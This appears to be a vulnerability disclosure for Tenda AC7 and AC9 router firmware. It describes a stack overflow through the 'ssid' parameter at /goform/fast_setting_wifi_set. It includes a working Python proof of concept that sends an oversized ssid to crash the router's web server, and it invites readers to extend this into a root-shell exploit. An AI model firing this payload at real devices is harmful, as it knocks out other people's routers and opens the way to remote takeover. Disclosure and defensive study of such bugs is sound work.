 # Affected Version
Tenda AC7 V1.0 V15.03.06.44
Tenda AC9 V3.0 V15.03.06.42_multi
# Vulnerability Description
Tenda AC7 V1.0 V15.03.06.44 and Tenda AC9 V3.0 V15.03.06.42_multi were discovered to contain a stack overflow via parameter ssid at url /goform/fast_setting_wifi_set.

# Firmware download address
https://www.tenda.com.cn/download/detail-2776.html
https://www.tenda.com.cn/download/detail-2908.html

# Vulnerability Details
In function form_fast_setting_wifi_set line 35, ssid is a a user-controlled parameter(‘ssid’) and is read in without length check.Then in line 38 and line 39, the content of ssid is copied into local variable ssid_24g and ssid_5g, which leads to a stack overflow vulnerbility.
![](https://github.com/peris-navince/founded-0-days/blob/main/form_fast_setting_wifi_set/1.png)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'ssid': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.128',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.128/goform/fast_setting_wifi_set'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/form_fast_setting_wifi_set/0.png)

And you can write your own exp to get the root shell.
